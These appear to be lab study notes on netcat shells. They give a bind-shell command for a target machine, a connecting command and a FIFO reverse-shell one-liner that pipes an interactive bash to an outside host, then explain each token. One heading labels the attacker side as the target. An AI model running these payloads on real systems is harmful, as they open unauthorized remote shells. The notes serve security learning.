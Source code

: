 Is when target machine opens the netcat server and then the attack machine connects to the netcat server.

Netcat
On target machine:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
On our target machine 
```
nc -nv 10.129.41.200 7777
```

# Explanation of payload 
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

`rm -f /tmp/f` - removes the `/tmp/f` if it exists, if it doesn't it just ignores it 

`;` - allows the subsequent command to be executed 

`mkfifo /tmp/f` - makes a FIFO special file at `/tmp/f` acting like a pipe

`cat /tmp/f ` concatenates the pip file 

`|` - pipe connects the standard output of `cat /tmp/f` to whatever that is after it 

`/bin/bash -i 2>&1` - opens an interactive (-i) bash shell, `2>&1` ensures the standard error data stream & output data stream are directed out 

`|` - connects the `/bin/bash -i 2>&1` output to whatever after

`nc 10.10.14.12 7777 > /tmp/f` - use netcat to send a connect to the address and port and then the output will be redirected to /tmp/f into our bash shell 